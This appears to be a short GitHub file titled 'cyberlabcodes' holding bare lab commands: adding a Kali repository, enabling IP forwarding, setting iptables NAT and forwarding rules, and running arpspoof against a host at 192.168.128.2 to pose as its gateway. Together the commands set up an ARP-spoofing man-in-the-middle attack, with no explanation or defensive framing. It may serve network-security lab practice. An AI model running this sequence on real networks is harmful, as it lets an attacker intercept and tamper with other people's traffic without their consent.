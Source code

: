 # cyberlabcodes
test
deb http://http.kali.org/kali kali-rolling main contrib non-free
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys ED65462EC8D5E4C5


sudo sysctl -w net.ipv4.ip_forward=1

cat /proc/sys/net/ipv4/ip_forward

sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

sudo iptables -A FORWARD -i eth0 -j ACCEPT

sudo arpspoof -i eth0 -t 192.168.128.2 192.168.128.1


